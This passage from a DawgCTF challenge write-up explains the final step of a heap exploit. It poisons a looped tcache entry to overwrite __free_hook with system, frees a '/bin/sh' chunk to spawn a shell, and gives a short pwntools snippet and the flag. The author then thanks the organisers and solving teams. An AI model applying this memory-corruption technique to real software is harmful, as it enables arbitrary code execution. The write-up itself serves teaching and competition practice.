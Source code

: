 By it, of course, we mean a shell. Remember we have setup some fake songs (numbered 6, 7, and 8) to read from stdin so we can malloc any size with any contents.
At this point, our tcache looks something like this:

```
[heap]--\
  ^-----/
```

We first make one 0x20 allocation, which gives us the looped tcache entry. Because of the loop, the tcache head
still points to this 0x20 chunk, so writing a fake next pointer here will give us control of the linked list. We set the next
pointer to `__free_hook`. Now tcache 0x20 looks something like this:

```
[heap] -> [__free_hook]
```

We can make another 0x20 allocation to consume the first entry. For this, we pick the string `"/bin/sh"`. After that allocation, the tcache
head becomes `__free_hook`. We can make another allocation to overwrite `__free_hook` with `system` and trigger the call by freeing a chunk. 
(You can see the full exploit script over at `trashcanna-sol.py`)

```python
freesong(5)
stdsong(6, 8, p64(libc.symbols["__free_hook"]))
stdsong(7, 8, "/bin/sh")
stdsong(8, 8, p64(libc.symbols["system"]))
freesong(7)

proc.interactive()
```

Now we've got a shell and can cat the flag, which is appropriately `DawgCTF{h0t_aNd_d@ng3r0us}`.

### you'll miss the magic of these good old days

Sad to say this was my last DawgCTF as a student at UMBC, but happy to say it was the biggest
and baddest we've ever had. Special thanks to RJ Joyce, Joe Aurelio, Cyrus Bonyadi, Seamus Burke, 
Chris Gardner, Zack Orndorff, Jackie Schultz, Chris Skane, Drew Barrett, and everyone else who 
made this event so special. Congrats to redpwn for the win and shoutout to Polaris, redpwn, 
HTCPCP://, and meltdown for solving it during the competiton (RPISEC also got the solve shortly
after the competition ended, so kudos to them as well). I'll be writing challenges next year
as well, so if you thought this was it I direct you to a line from Praying: `the best is yet to come`.
